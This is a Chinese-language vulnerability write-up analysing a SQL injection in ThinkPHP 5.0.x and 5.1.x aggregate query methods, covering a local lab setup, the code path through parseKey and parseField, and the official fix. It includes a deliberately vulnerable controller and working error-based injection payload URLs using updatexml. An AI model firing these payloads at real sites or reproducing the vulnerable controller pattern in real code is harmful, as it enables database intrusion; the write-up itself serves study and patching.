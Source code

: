 # ThinkPHP5 SQL注入

Author: H3rmesk1t

Data: 2021.08.14

# 漏洞概要
- 本次漏洞存在于所有 `Mysql` 聚合函数相关方法，由于程序没有对数据进行很好的过滤，直接将数据拼接进 SQL 语句，最终导致 SQL注入漏洞 的产生
- 漏洞影响版本： 5.0.0<=ThinkPHP<=5.0.21 、 5.1.3<=ThinkPHP5<=5.1.25 

# 初始配置
获取测试环境代码

```bash
composer create-project --prefer-dist topthink/think=5.1  tpH3rmesk1t
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ad95b5b9781f4b9fabccb2dbae673760.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

将 composer.json 文件的 require 字段设置成如下

```bas
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.7"
}
```

然后执行 `composer update`

![在这里插入图片描述](https://img-blog.csdnimg.cn/344ef95318c342f1914da5e9a4f90185.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

- 下载后的源码中，需要对`application/index/controller/Index.php`内容进行修改

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $options = request()->get('options');
        $result = db('users')->max($options);
        var_dump($result);
        return '<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"<h1>:) </h1><pThinkPHP V5.1<br/><span style="font-size:30px">12载初心不改（2006-2018） - 你值得信赖的PHP框架</span></p></div><script type="text/javascript" src="https://tajs.qq.com/stats?sId=64890268" charset="UTF-8"></script><script type="text/javascript" src="https://e.topthink.com/Public/static/client.js"></script><think id="eab4b9f840753f8e7"></think>';
    }
}
```

在`config/database.php`文件中配置数据库相关信息，并开启`config/app.php`中的app_debug和app_trace,创建数据库信息如下

```php
create database thinkphp;
use thinkphp;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null,
);
insert into users(id,username) values(1,'H3rmesk1t');
```
# 漏洞利用

Payload

```bas
5.0.0~5.0.21 、 5.1.3～5.1.10
http://127.0.0.1/cms/public/index.php?options=id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
5.1.11～5.1.25 
http://127.0.0.1/cms/public/index.php?options=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/eb88c5392a2745b98f180ba3d5d012ad.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 漏洞分析

用户可控数据未经过滤，传入 `Query` 类的 `max` 方法进行聚合查询语句构造，接着调用本类的 `aggregate` 方法，本次漏洞问题正是发生在该函数底层代码中，所以所有调用该方法的聚合方法均存在 SQL 注入问题，我们看到 `aggregate` 方法又调用了 `Mysql` 类的 `aggregate` 方法，在该方法中，我们可以明显看到程序将用户可控变量 `$field` 经过 `parseKey` 方法处理后，与 SQL 语句进行了拼接

其余流程和之前的分析差不多，具体看看 `parseKey` 方法

![在这里插入图片描述](https://img-blog.csdnimg.cn/e20d6659c1eb403c80289a864e0ff5ff.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

`parseKey` 方法主要是对字段和表名进行处理，这里只是对我们的数据两端都添加了反引号，经过 `parseKey` 方法处理后，程序又回到了上图的 `$this->value()` 方法中，该方法会调用 `Builder` 类的 `select` 方法来构造 SQL 语句，这个方法应该说是在分析 ThinkPHP 漏洞时，非常常见的了，其无非就是使用 `str_replace` 方法，将变量替换到 SQL 语句模板中，这里重点关注 `parseField` 方法，因为用户可控数据存储在 `$options['field']` 变量中并被传入该方法

![在这里插入图片描述](https://img-blog.csdnimg.cn/35601821d47a44b98695c4cc5a8b4ac0.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

进入 `parseField` 方法，我们发现用户可控数据只是经过 `parseKey` 方法处理，并不影响数据，然后直接用逗号拼接，最终直接替换进 SQL 语句模板里，导致 SQL注入漏洞 的发生

![在这里插入图片描述](https://img-blog.csdnimg.cn/a181aa72590b4399818ada6fa8b897df.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 漏洞修复

官方的修复方法是：当匹配到除了 字母、点号、星号 以外的字符时，就抛出异常

![在这里插入图片描述](https://img-blog.csdnimg.cn/835bd07f790849cda255290687ec65b1.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 攻击总结

参考Mochazz师傅的审计流程

![在这里插入图片描述](https://img-blog.csdnimg.cn/f4c78426789146f79568f3a6bfb5d9d3.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
